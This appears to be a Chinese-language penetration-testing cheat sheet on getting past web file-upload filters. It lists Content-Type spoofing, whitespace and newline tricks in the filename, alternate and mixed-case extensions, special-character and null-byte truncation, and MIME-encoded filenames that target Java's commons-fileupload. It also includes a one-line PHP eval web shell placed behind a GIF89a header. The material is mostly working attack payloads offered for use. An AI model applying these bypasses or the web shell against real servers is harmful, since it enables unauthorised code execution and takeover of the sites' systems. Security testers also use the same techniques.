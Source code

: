 ## 文件不解析
上传html文件不解析，修改`Content-Type: text/html`来设置文件格式

## 名称/后缀检测绕过
### 黑白名单判断
瞎写一个文件后缀，如上传 `tx` 可以，上传jsp不行，则上传限制为黑名单控制。

### 在filename字符左右加上一些空白字符
`filename="1.jsp"  ->  %20filename%0a="1.jsp"`

%20：空格	%0a：换行

或者后缀使用空格：

`后缀中间加空格：.js p	后缀后面加两个空格再加正常的后缀：a.jsp  .xls`

### 文件内容检测绕过
文件头：Content-Type: image/jpeg
文件内容：
GIF89a?
<?php
Eval($_POST["pass"]);
(有可能会检测文件内容，例如不允许有危险函数eval)

### java特殊编码绕过（针对commons-fileupload组件）
`filename="=?gbk?Q?=31=2e=6a=73=70?="`

`filename="=?utf-8?B?MS5qc3A=?="`

文章：[https://y4tacker.github.io/2022/02/25/year/2022/2/Java%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%A4%A7%E6%9D%80%E5%99%A8-%E7%BB%95waf(%E9%92%88%E5%AF%B9commons-fileupload%E7%BB%84%E4%BB%B6)/#%E4%BD%A0%E4%BB%A5%E4%B8%BA%E5%B0%B1%E8%BF%99%E5%B0%B1%E5%AE%8C%E4%BA%86%EF%BC%9F](https://y4tacker.github.io/2022/02/25/year/2022/2/Java%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%A4%A7%E6%9D%80%E5%99%A8-%E7%BB%95waf(%E9%92%88%E5%AF%B9commons-fileupload%E7%BB%84%E4%BB%B6)/#%E4%BD%A0%E4%BB%A5%E4%B8%BA%E5%B0%B1%E8%BF%99%E5%B0%B1%E5%AE%8C%E4%BA%86%EF%BC%9F)

### 名称替换绕过
aspx&asp：ashx、asa、asmx、cer、cdx、ascx、asac  
php：pht、php3、php5、phtml、shtml  
jsp：jspx、jspf

### 后缀大小写检测绕过
Php、PHP、jsP

### 后缀添加特殊字符
`:、空格、::$DATA、.,$,/.,=等字符`，`: `只针对windows系统，会将后面的截断

### 截断绕过
`: ; %00 ’ ^`等符号截断，windows成功率比较高，因为windows在创建文件时这些特殊字符是不允许出现的。

